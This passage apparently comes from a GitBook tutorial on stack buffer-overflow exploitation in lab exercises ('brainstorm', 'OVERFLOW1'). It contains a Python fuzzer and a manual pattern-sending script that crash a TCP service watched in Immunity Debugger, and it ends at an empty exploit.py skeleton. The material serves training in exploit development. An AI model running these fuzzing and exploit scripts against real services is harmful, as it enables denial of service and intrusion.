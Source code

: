 ```python
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("brainstorm " + string + "\r\n")
        s.recv(1024)
        s.send("message " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```
{% endtab %}

{% tab title="Manual Guessing" %}
```python
# Generate patterns wih '/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100'
# Place the value into the 'buffer' variable. Slowly increase pattern value until app crashes.
 
import socket,sys
 
address = "192.168.1.150"
port = 31337
buffer = "Aa0Aa1Aa2"
 
try:
    print "[+] Sending buffer"
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((address,port))
    s.send(buffer + '\r\n')
except:
    print "[!] Unable to connect to the application."
    sys.exit(0)
finally:
    s.close()
```
{% endtab %}
{% endtabs %}

Once the Python script has started it will crash the immunity debugger after a short amount of time. Make a note of the last bytes sent to Immunity.

![](<../.gitbook/assets/image (1547).png>)

Make a note of the last bytes sent of **2000**.

Create the following python file for exploiting the application.

{% tabs %}
{% tab title="Python exploit.py" %}
```python
import socket

ip = "<IP>"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
```